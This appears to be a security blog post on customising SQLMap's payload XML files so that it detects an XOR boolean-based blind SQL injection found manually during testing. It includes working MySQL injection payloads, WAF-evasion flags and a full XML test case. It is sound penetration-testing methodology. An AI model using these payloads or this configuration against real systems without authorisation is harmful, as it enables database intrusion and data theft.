 ```yaml
---
layout: post
title: "Customising SQLMap: Integrating Personalised Injection Payloads"
categories: [SQLi]
description: some word here
keywords: SQL Injection, SQLMap, Inference
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


# Introduction
At times, SQLMap might mistakenly assess a parameter as secure due to various factors, despite evidence from manual testing indicating otherwise.

We are familiar with the standard flag modifications that SQLMap provides to scan for vulnerabilities - level and risk. Increasing level increases the effective scope for testing with more payloads and boundaries, while increasing the risk allows for heavy time-based injections and OR-based SQL injections.

We can also use SQLMap tamper scripts to obfuscate the payload to bypass filters and WAFs, but there are times where these techniques do not provide complete coverage and identify the vulnerability.

In that case, we can modify the payload XML files that SQLMap stores in their libexec directory and specify the exact payload that is required by adding an additional test case to the file. This was initially discussed in an SQLMap issue located here: https://github.com/sqlmapproject/sqlmap/issues/4091.

**MacOS**
For MacOS users that installed SQLMap via brew we can navigate to the following location to find the XML payload files:
```
    /opt/homebrew/Cellar/sqlmap/[version]/libexec/data/xml/payloads
```
**Linux**
For Linux users the XML payload files should be located here:
```
    /usr/share/sqlmap/data/xml/payloads
```

# Recent Example
The following is a recent example of an XOR boolean-based and time-based blind SQL injection that was manually discovered, however SQLMap was unable to determine the injection location without modification of the XML payload files. There were several issues which will be outlined in the subsequent sections.

## Initial Attack Vector

The initial discovery of the SQL injection was relatively straightforward - a POST request contained the searchline parameter which produced a different status code (500) when double quotes were provided in the search query. Further investigation determined that the application was susceptible to time-based SQL injection, and the following payload could be used to conjure TRUE - FALSE conditions to enumerate the database:

```
"XOR(if(now()=sysdate(),SLEEP((0.25)),0))XOR" // There was a significant delay by a factor of 10, so sleep(0.25) would result in a 2.5 second time delay
```

## Inference-based SQL injection
Inference-based SQL injection take a significant time to extract sensitive information from the database, especially via time-based SQL injection. Fortunately, we were able to determine that the application was also vulnerable to boolean-based SQL injection, which provided a slightly faster avenue to extract data:

```
"XOR(if((select/**/666/**/where/**/1=1),444,0))XOR" // This would result in a TRUE condition returning a response of ~21,000 bytes
"XOR(if((select/**/666/**/where/**/1=2),444,0))XOR" // This would result in a FALSE condition returning ~27,000 bytes
```

The Burp request(s) are as follows (only the POST request is shown and mostly redacted):
<a href="/images/blog/sql-burp-1.png"><img src="/images/blog/sql-burp-1.png"></a>
<p align="center">TRUE condition with ~21,000 byte response</p>

<a href="/images/blog/sql-burp-2.png"><img src="/images/blog/sql-burp-2.png"></a>
<p align="center">FALSE condition with ~27,000 byte response</p>

We can employ the use of SQLMap for automated enumeration of the database, however SQLMap failed to detect the vulnerability:
Initial SQLMap query fails to locate the vulnerabilityThe following flags were provided for testing:

```
-u [location] OR -r [request]
 --data=[POST data]
-p "searchline"
 --random-agent [WAF evasion]
 --dbms=mysql
 --level 1 --risk 1 (as we know the exact location + injection vulnerability, but alternated through different levels/risks)
 --technique=B (Boolean-based blind SQL Injection)
 --tamper=between,space2comment (and others)
 --headers ...
 --prefix="sqli" --suffix="" (prevent SQLMap from adding custom prefix/suffixes)
```

## Initial Problems
There were several factors that made enumeration difficult however:

  + Time-based SQL Injection was cumbersome, and SQLMap requires a minimum sleep time of 1 second. This sleep value is amplified by a factor of 10 on the application, which means sleep(1) would result in a 10 second delay. This would often miss the timing for SQLMap to receive a valid response. This was circumvented by using Boolean-based SQL Injection payloads instead.

  + A Web Application Firewall (WAF) blocked many SQL sensitive strings, including information_schema.tables, which meant table and column names are required to be brute-forced. An eventual WAF bypass was discovered, however this is beyond the topic of this article.

  + SQLMap does not have the XOR payload by default, and so we need to manually add in the test vector.

## Creating New Test Cases
As previously mentioned, we can modify the XML payload files to provide the exact test cases in the event that SQLMap does not recognise our attack vector. These files are located in the /data/xml/payload SQLMap data files depending on where it was installed. We can specify the test element as follows:

```xml
    <test>
        <title>MySQL XOR boolean-based blind</title>
        <stype>1</stype>
        <level>1</level>
        <risk>1</risk>
        <clause>1-8</clause>
        <where>1</where>
        <vector>"XOR(if((select/**/666/**/where/**/[INFERENCE]),444,0))XOR"</vector>
        <request>
            <payload>"XOR(if((select/**/666/**/where/**/[RANDNUM]=[RANDNUM]),444,0))XOR"</payload>
        </request>
        <response>
            <comparison>"XOR(if((select/**/666/**/where/**/[RANDNUM]=[RANDNUM1]),444,0))XOR"</comparison>
        </response>
        <details>
            <dbms>MySQL</dbms>
        </details>
    </test>
```

The main elements we are concerned about are vector, request and response. We can specify our attack payload in the vector element, and replace the inference logic with [INFERENCE] to point SQLMap to the injection location. The request and response elements accepts the same payload, but replaces the inference with random numbers [RANDNUM]. We should specify a TRUE condition for the request, and a FALSE condition for the response (notice the [RANDNUM1] to indicate a different random number).

## Successful Exploitation
The newly added inference logic allowed SQLMap to create a TRUE/FALSE condition based on the response length, however it was still unable to identify the vulnerability. To circumvent this, we can use the string feature to match a string in the response that is unique to one condition, such as a PNG file. There are other detection methods provided in SQLMap which I encourage the readers to familiarise with:
```
--string=STRING     String to match when query is evaluated to True
--not-string=NOT..  String to match when query is evaluated to False
--regexp=REGEXP     Regexp to match when query is evaluated to True
--code=CODE         HTTP code to match when query is evaluated to True
```
# Conclusion
By providing the previous flags, adding a new test case and providing a string match condition, we were able to enable SQLMap to correctly identify the XOR boolean-based blind vulnerability, and enumerate the database successfully.
